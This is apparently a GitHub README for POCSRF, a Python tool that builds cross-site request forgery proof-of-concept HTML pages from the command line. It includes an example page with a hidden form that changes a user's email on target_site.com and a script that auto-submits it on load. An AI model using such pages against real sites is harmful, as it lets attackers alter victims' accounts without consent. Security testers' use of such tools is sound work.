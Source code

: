# POCSRF
A PoC (Proof of Concept) generator for CSRF vulnerabilities. 

POCSRF is designed to easily generate CSRF PoC files from the command line. Simple enter the target application, the request method and the values to be sent in the request and POCSRF will generate the html code for you.

**How to Use:**
 
    ./POCSRF -h

     ______   ______     ______     ______     ______     ______  
    /\  == \ /\  __ \   /\  ___\   /\  ___\   /\  == \   /\  ___\ 
    \ \  _-/ \ \ \/\ \  \ \ \____  \ \___  \  \ \  __<   \ \  __\ 
     \ \_\    \ \_____\  \ \_____\  \/\_____\  \ \_\ \_\  \ \_\   
      \/_/     \/_____/   \/_____/   \/_____/   \/_/ /_/   \/_/   


    POCSRF.py

    Required: <URI> <METHOD> <NAME_1=VALUE_1,NAME_2=VALUE_2,...>

    Optional:  
    -e --encoding:  Encoding type (text/plain, www/application, etc) default : text/plain
    -a --auto:      Automatically submit the request when the page is loaded 
    -of --filename: Name of the output file (default : CSRF_PoC.html)
    -v --verbose:   Verbose mode


**Example Output:**

    <html>
      <head>
        <title>PoC CSRF</title>
      </head>
      <body>
        <form method=POST action=https://target_site.com/change_email/>
          <input type="hidden" value=test@email.com name=email />
          <input type="submit" value="Submit Request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    
**Notes**

Minimum version of python required is Python3 (Python 3.8 used to develop), binaries are available for:
      
   - Binaries Coming Soon
   
https://www.python.org/
